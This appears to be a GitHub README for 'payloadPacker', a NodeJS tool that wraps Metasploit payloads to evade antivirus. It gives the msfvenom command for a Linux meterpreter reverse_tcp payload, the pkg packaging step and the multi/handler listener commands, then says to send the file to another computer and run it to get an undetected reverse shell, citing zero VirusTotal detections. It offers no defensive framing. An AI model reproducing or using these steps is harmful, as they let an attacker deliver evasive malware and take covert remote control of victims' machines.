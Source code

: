 # payloadPacker
metasploit payload packer in nodeJS

## Description

This tool encapsulate existing metasploit payload in NodeJS instance, the payload is executed by NodeJS so it's not detect by any antivirus.

## Installation

We need pkg to package the project

```bash
npm install -g pkg
```

We also need metasploit framework to generate payload  

With metasploit, generate your payload and put them in `bin` directory with `payload` name.
Here is a sample for Linux x86 reverse shell

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > bin/payload
```

## Utilisation
Package the whole project with pkg 
```bash
pkg .
```
Then you have executable files for Windows, Linux and MacOS environnement.

With metasploit set up your listener, with the example

```bash
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST IP
set LPORT PORT
exploit
```

Send this file on another computer and launch it. Now you have a FUD reverse shell.

[Tested with Virustotal and 0 detection with the example.](https://www.virustotal.com/gui/file/e389c770d3b5466a1b26da26b90734953ae175644ee8fad0b3dc8477faf345a6/detection) 
